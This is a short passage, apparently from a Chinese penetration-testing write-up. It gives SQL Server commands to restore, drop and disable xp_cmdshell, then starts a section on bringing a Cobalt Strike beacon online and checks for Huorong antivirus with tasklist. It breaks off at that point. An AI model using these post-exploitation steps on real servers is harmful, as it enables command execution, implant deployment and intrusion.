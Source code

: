 [![](assets/1705301733-113705c42536ee6b15e63868bfda4b1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140637-befc0344-b110-1.png)

恢复／删除xp\_cmdshell

```plain
exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll' 
exec sp_dropextendedproc 'xplog70.dll'
```

关闭xp\_cmdshell

```plain
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',0;
RECONFIGURE;
```

### **上线cs**

查看一下有无杀软tasklist ， 发现存在火绒

[![](assets/1705301733-9786b486ac70e677f7cc4d7b7d538d42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140649-c5c192d4-b110-1.png)
